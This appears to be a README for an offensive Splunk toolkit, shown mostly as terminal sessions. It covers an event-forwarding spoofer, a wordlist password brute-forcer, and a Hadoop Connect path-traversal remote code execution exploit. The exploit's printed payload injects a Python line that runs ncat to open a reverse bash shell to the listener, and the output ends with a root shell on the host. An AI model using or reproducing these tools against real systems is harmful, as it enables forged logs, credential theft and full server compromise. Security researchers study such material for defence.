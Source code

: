 ## [spooforward.py]

[i] Splunk forward spoofer v0.1

USAGE: ./spooforward.py [options]:

	-r, --host <file>	Server address (indexer instance)
	-p, --port <address>	Server port (default: 9997)
	-s, --source <pid>	Spoofed source ex. udp:514
	-l, --shost <num>	Spoofed host address
	-t, --type <type>	Source type
	-i, --index <index>	Index to forward to ex. default, main
	-m, --message <message>	 Spoofed event content (limit: 255)
	-d, --debug	 Enable debugging
	-c, --check	 Scan host
	-h, --help	 This help message


Example:

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./spooforward.py -c -d -r 127.0.0.1 -l spoofedaddr.net -i main -t spoofedtype -s spoofedsource  -m "some event message"

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] '\xfe\x03\x16source::spoofedsource\x16host::spoofedaddr.net\x0cspoofedtype\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04main\x12some event message'

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT
```


## [splunk_brute.sh]

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./splunk_brute.sh test_acc /usr/share/wordlists/rockyou.txt 127.0.0.1 8000

[!] Bruteforcing password for test_acc on 127.0.0.1...
.......................................................
SUCCESS! U: test_acc P: 1234567890

...Terminated
```

## [hdfs_exploit.sh]

Splunk Hadoop Connect Remote Code Execution

This script exploits path traversal vulnerability in Splunk app "Hadoop Connect"
export_hdfs.py script can be abused by specially crafted event to drop its contents
into /opt/splunk/bin/scripts/ executable directory.

This exploit need to meet several requirements:
* Ability to craft logs on system (see spooforward.py)
* Have HadoopConnect app installed

Usage:
        case "${option}"
	
        in
                h) rhost=${OPTARG};; # Remote host
		
                p) rport=${OPTARG};; # Remote port
		
                l) lhost=${OPTARG};; # Local host
		
                s) lport=${OPTARG};; # Local port
		
		o) proto=${OPTARG};; # Protocol [http|https]
		
		m) marker=${OPTARG};;# Unique string to search for
		
  	        u) uname=${OPTARG};; # Splunk user
		
		w) passw=${OPTARG};; # Splunk password
		
 	        c) scanhost="-c";;   # Scan host for spoofing capabilities
		
		e) spoof="NO";;      # Dont try to spoof event (already there)

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./hdfs_exploit.sh -c -h 127.0.0.1 -m w00tw00tw00t

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] "\xfe\x03\nsource::.\thost::..\x02.\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04mainY#!/usr/bin/python\nimport os;os.system('ncat -e /bin/bash 127.0.0.1 4444');# w00tw00tw00t "

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT

[PWN] Waiting for shell...
Listening on [0.0.0.0] (family 0, port 4444)
nc -lvp${lport}
Connection from localhost 44056 received!
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/splunk/etc/apps/search/bin
uname -a
Linux postern 4.8.0-kali2-amd64 #1 SMP Debian 4.8.15-1kali1 (2016-12-23) x86_64 GNU/Linux
```



